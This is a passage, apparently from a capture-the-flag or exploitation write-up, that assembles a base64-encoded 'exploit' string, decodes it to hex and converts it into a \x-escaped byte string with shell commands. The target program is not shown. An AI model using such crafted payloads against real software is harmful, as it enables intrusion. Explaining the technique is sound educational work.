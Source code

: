 Because base64 works in blocks and has padding, we're going to append a few meaningless bytes to the end so that if anything gets messed up by being a partial block, they will.

Here's the full "exploit", assembled:

<pre>hAAAAX5AAAAPPPPPPPPahABjjX5AC++PYhABAAZ1QAhFAAAX59AAAPZB1QAAAAAhAAjjZ1QAhFAAAX59AAAPZBWRLZD1QAAAAAhjjbAZ1QAhFAAAX59AAAPZBWRLLZDD1QAhFAAAX59AAAPZBWRLLLZDDD1QAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAyCAAAz++++/A</pre>

We're going to add a few 'A's to the end for padding (the character we choose is meaningless), and run it through base64 -d (adding '='s to the end until we stop getting decoding errors):

<pre>
$ echo 'hAAAAX5AAAAPPPPPPPPahABjjX5AC++PYhABAAZ1QAhFAAAX59AAAPZB1QAAAAAhAAjjZ1QAhFAAAX59AAAPZBWRLZD1QAAAAAhjjbAZ1QAhFAAAX59AAAPZBWRLLZDD1QAhFAAAX59AAAPZBWRLLLZDDD1QAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAyCAAAz++++/AAAAAAA=' | base64 -d | hexdump -Cv
00000000  84 00 00 01 7e 40 00 00  0f 3c f3 cf 3c f3 da 84  |....~@...&lt;..&lt;...|
00000010  00 63 8d 7e 40 0b ef 8f  62 10 01 00 06 75 40 08  |.c.~@...b....u@.|
00000020  45 00 00 17 e7 d0 00 00  f6 41 d5 00 00 00 00 21  |E........A.....!|
00000030  00 08 e3 67 54 00 84 50  00 01 7e 7d 00 00 0f 64  |...gT..P..~}...d|
00000040  15 91 2d 90 f5 40 00 00  00 08 63 8d b0 19 d5 00  |..-..@....c.....|
00000050  21 14 00 00 5f 9f 40 00  03 d9 05 64 4b 2d 90 c3  |!..._.@....dK-..|
00000060  d5 00 21 14 00 00 5f 9f  40 00 03 d9 05 64 4b 2c  |..!..._.@....dK,|
00000070  b6 43 0c 3d 50 00 00 00  00 00 00 00 00 00 00 00  |.C.=P...........|
00000080  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000c0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000f0  03 20 80 00 0c fe fb ef  bf 00 00 00 00 00        |. ............|
</pre>


Let's convert that into a string that we can use on the commandline by chaining together a bunch of shell commands:

<pre id='vimCodeElement'>
<span class="Statement">echo</span><span class="String"> -ne </span><span class="Operator">'</span><span class="String">hAAAAX5AAAAPPPPPPPPahABjjX5AC++PYhABAAZ1QAhFAAAX59AAAPZB1QAAAAAhAAjjZ1QAhFAAAX59AAAPZBWRLZD1QAAAAAhjjbAZ1QAhFAAAX59AAAPZBWRLLZDD1QAhFAAAX59AAAPZBWRLLLZDDD1QAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAyCAAAz++++/AAAAAAA=</span><span class="Operator">'</span><span class="String"> </span>| base64 <span class="Special">-d</span> | xxd <span class="Special">-g</span>1 file | cut <span class="Special">-b</span>10-57 | tr <span class="Special">-d</span> <span class="Operator">'</span><span class="String">\n</span><span class="Operator">'</span> | <span class="Statement">sed</span> <span class="Operator">'</span><span class="String">s/ /\\x/g</span><span class="Operator">'</span>
\x84\x00\x00\x01\x7e\x40\x00\x00\x0f\x3c\xf3\xcf\x3c\xf3\xda\x84\x00\x63\x8d\x7e\x40\x0b\xef\x8f\x62\x10\x01\x00\x06\x75\x40\x08\x45\x00\x00\x17\xe7\xd0\x00\x00\xf6\x41\xd5\x00\x00\x00\x00\x21\x00\x08\xe3\x67\x54\x00\x84\x50\x00\x01\x7e\x7d\x00\x00\x0f\x64\x15\x91\x2d\x90\xf5\x40\x00\x00\x00\x08\x63\x8d\xb0\x19\xd5\x00\x21\x14\x00\x00\x5f\x9f\x40\x00\x03\xd9\x05\x64\x4b\x2d\x90\xc3\xd5\x00\x21\x14\x00\x00\x5f\x9f\x40\x00\x03\xd9\x05\x64\x4b\x2c\xb6\x43\x0c\x3d\x50\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x20\x80\x00\x0c\xfe\xfb\xef\xbf\x00\x00\x00\x00\x00
</pre>
